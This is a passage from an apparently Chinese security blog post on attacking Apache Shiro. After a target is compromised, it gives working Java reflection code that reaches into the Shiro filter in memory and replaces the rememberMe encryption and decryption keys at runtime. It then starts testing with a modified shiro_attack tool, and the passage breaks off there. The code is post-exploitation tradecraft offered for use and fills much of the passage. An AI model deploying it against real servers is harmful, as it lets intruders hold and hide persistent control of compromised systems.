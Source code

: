 - - -

去**AbstractRememberMeManager**源码可以发现如果开发人员没有配置**setCipherKey**方法的，encryptionCipherKey 和 decryptionCipherKey 是和 DEFAULT\_CIPHER\_KEY\_BYTES 是一个值。所以其实就算前面我们修改成功 DEFAULT\_CIPHER\_KEY\_BYTES 的值也是没有用，本质得修改 encryptionCipherKey 和 decryptionCipherKey 的值。

### [0x02 修改思路](#toc_0x02)

我们得出得修改 decryptionCipherKey 和 encryptionCipherKey 的值，目前有两种解决方案：

1.  拿下目标之后直接对目标的配置文件就行修改，然后重启服务。
2.  利用 filter 内存马思维去修改 shiroFilterFactoryBean 中的 encryptionCipherKey 和 decryptionCipherKey 的值。

显然重启服务是一个不可取操作，那么只剩下 filter 内存马方法。这里直接给出解决代码：

```bash
    @RequestMapping("/say")
    public String HelloSay(HttpServletRequest request , HttpServletResponse response) throws Exception {
        ServletContext context = request.getServletContext();
        Object obj = context.getFilterRegistration("shiroFilterFactoryBean");
        Field field = obj.getClass().getDeclaredField("filterDef");
        field.setAccessible(true);
        obj = field.get(obj);
        field = obj.getClass().getDeclaredField("filter");
        field.setAccessible(true);
        obj = field.get(obj);
        field = obj.getClass().getSuperclass().getDeclaredField("securityManager");
        field.setAccessible(true);
        obj = field.get(obj);
        field = obj.getClass().getSuperclass().getDeclaredField("rememberMeManager");
        field.setAccessible(true);
        obj = field.get(obj);
        java.lang.reflect.Method setEncryptionCipherKey = obj.getClass().getSuperclass().getDeclaredMethod("setEncryptionCipherKey", new Class[]{byte[].class});
        byte[] bytes = java.util.Base64.getDecoder().decode("3AvVhmFLUs0KTA3Kprsdag==");
//                    java.util.Base64.getEncoder().encode(bytes);
        setEncryptionCipherKey.invoke(obj, new Object[]{bytes});
        java.lang.reflect.Method setDecryptionCipherKey = obj.getClass().getSuperclass().getDeclaredMethod("setDecryptionCipherKey", new Class[]{byte[].class});
        setDecryptionCipherKey.invoke(obj, new Object[]{bytes});
//        response.
//        response.getClas
        response.getWriter().println("ok");
        response.getWriter().flush();
        response.getWriter().close();
        return "ok";
    }
```

实际本地测试效果，这里使用笔者自己魔改的 shiro\_attack 工具进行实际测试：

这是修改之前的使用配置 key(4AvVhmFLUs0KTA3Kprsdag==) 的攻击效果：
